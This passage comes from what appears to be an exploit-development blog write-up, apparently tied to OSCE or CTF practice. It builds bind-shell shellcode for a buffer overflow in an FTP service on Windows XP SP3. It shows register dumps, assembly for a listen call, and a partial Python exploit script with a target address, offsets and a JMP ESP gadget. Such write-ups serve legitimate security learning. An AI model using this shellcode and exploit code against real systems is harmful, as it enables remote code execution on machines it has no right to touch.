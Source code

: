 And at the end of this run the registers look like this:

``` txt
EAX 00000000
ECX 0024CF98
EDX 0024C890
EBX 00403454 <JMP.&WS2_32.bind>
ESP 00B5FF44
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFE7
O 0  LastErr ERROR_SUCCESS (00000000)
```

This shows that `bind` returned `0` (which is good) and that the `LastErr` is success. All is well so far! All we need now are `listen`, `accept` and `recv`. `listen` is a really simple call which takes the socket handle and a backlog counter. So let's move `EBX` to point to this function first, then set up the stack before doing the call:

``` txt
MOV BL, 0x5C          ; Point EBX at `listen`
PUSH 0x7F             ; Specify a big backlog
PUSH EDI              ; Pass in the socket
CALL EBX              ; Invoke listen
```

Let's give that a crack in our script:

``` python
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux